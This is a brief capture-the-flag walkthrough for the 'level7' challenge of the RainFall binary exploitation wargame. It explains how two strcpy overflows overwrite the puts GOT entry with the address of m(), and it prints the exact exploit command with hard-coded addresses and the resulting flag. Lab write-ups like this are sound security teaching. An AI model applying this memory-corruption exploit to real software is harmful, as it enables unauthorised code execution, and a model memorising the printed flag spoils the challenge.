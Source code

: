 # Walkthrough

## Disassembling executable 

see source.c

## Analysis

We used the first strcpy to overwrite perdu[1] to point to the address of put

We used the second strcpy to write on put() the address of the function m()

This way, when the put function is called, in fact it is calling the m().
```
level7@RainFall:~$ ./level7 $(python -c "print('A' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1643577400

```


